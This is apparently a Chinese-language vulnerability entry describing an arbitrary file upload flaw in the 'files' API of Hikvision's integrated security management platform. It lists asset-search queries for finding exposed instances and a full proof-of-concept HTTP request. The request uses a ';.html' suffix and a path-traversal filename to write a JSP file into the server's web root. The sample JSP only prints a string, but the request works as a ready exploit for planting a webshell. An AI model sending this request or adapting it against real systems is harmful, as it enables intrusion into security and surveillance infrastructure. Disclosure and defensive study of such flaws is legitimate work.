

# Hikvision 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

Hikvision 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面


需要开放运行管理中心 (8001端口)


```
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/Hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```


